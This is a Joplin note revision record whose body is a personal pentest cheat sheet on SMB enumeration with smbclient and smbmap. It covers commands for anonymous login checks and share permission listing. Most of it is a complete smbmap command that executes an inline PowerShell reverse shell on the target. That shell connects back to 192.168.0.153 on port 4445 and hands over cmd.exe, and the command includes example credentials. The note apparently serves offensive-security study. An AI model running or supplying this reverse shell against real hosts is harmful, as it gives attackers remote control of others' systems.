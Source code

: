 id: c9416939f6ae45a1877a489dcd092f07
parent_id: 
item_type: 1
item_id: 597f35ab651443a59e302f043352a412
item_updated_time: 1650548912280
title_diff: "[{\"diffs\":[[1,\"Smbclient & smbMap\\\r\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":19}]"
body_diff: "[{\"diffs\":[[1,\"# <ins>Smbclient</ins>\\\n\\\nCheck for anonymous login enabled:\\\n\\\n> echo exit | smbclient -L \\\\[ip\\\\]\\\n> \\\n> smbclient -L 192.168.24.24\\\n\\\n# <ins>SmbMap</ins>\\\n\\\nCheck which permissions we have in those shares\\\n\\\n> Smbmap -u &lt;user&gt; -H &lt;IP&gt;\\\n\\\nMake sure to check if HTTP port available; Else putting the domain does not work. Have to only use 'localhost'\\\n\\\n![93b6b241a8577baef7dafaca2c59fe1f.png](:/0c411b4305c44c48a50cc64aa0e81e00)\\\n\\\nTo enumerate files, use the -R option and state the folder to read\\\n\\\nTo obtain a shell in the target\\\n\\\n```bash\\\nsmbmap -u jsmith -p 'R33nisP!nckle' -d ABC -h 192.168.2.50 -x 'powershell -command \\\"function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=\\\"\\\"\\\"\\\"192.168.0.153\\\"\\\"\\\"\\\"; $port=\\\"\\\"\\\"\\\"4445\\\"\\\"\\\"\\\";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize ;$p=New-Object System.Diagnostics.Process ;$p.StartInfo.FileName=\\\"\\\"\\\"\\\"cmd.exe\\\"\\\"\\\"\\\" ;$p.StartInfo.RedirectStandardInput=1 ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0 ;$p.Start() ;$is=$p.StandardInput ;$os=$p.StandardOutput ;Start-Sleep 1 ;$e=new-object System.Text.AsciiEncoding ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length) ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}} if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else { $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out=\\\"\\\"\\\"\\\" \\\"\\\"\\\"\\\"}} $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};\\\"\\\n```\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1947}]"
metadata_diff: {"new":{"id":"597f35ab651443a59e302f043352a412","parent_id":"2e2257054f9c4980b2f1872f1d220424","latitude":"1.36730000","longitude":"103.80140000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-21T13:53:31.433Z
created_time: 2022-04-21T13:53:31.433Z
type_: 13